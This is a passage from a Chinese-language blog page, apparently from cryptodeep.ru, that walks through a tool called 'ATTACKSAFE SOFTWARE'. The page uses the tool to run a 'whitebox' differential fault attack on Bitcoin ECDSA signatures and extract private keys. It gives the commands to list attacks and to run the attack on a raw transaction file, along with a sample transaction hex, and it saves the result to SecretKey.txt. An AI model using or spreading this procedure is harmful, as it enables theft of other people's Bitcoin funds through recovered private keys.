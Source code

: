 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-18.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1587"/></figure>



<p><code>"ATTACKSAFE SOFTWARE"</code>包括對比特幣的所有流行攻擊。</p>



<h2>讓我們列出所有攻擊：</h2>



<pre class="wp-block-code"><code>./attacksafe -list</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-19-1024x631.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1589"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-20-1024x631.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1590"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-21-1024x631.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1592"/></figure>



<p>然後選擇<code>&nbsp;-tool: whitebox_attack</code></p>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-22-1024x276.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1594"/></figure>



<p>我們發起了這次攻擊<code>-tool whitebox_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>

